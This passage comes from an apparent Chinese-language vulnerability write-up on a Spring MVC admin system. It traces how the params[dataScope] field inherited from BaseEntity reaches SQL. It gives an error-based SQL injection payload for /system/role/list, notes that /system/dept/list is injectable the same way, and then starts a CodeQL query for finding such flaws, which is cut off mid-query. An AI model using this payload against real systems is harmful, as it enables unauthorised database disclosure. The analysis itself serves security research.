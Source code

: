 虽然SpringMVC中可以解析实体类，但是我在SysRole这个类里面没有找到这个参数，最后才看到SysRole继承了BaseEntity这个类，params参数写到了这里面

![image-20230608134344828](images/29.png)

从参数开始看，只需要传入`params[dataScope]`

```
/system/role/lists

params[dataScope]=and
 extractvalue(1,concat(0x7e,substring((select database()),1,32),0x7e))
```

![image-20230608134430922](images/30.png)



另外在/system/dept/list也是，只要通过这种思路去找就行了

用codeql实现半自动化

```
/**
 * @kind path-problem
 */
import java

class AllControllerMethod extends Callable {
    AllControllerMethod() {
      exists(RefType i |
        i.getName()
            .substring(i.getName().indexOf("Controller"), i.getName().indexOf("Controller") + 10) =
          "Controller" and
        this = i.getACallable()
      )
    }
  }

  class SqlMethod extends Call{
    SqlMethod(){
```